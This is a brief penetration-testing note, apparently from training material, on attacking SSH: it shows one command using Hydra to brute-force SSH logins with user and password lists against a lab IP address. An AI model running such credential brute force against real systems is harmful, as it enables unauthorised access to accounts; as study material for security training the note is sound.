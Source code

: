 # SSH

## Hydra

Use a tool like Hydra to brute force SSH.

```shell
clue@machine[/]$ hydra -L user.list -P password.list ssh://10.129.42.197
```
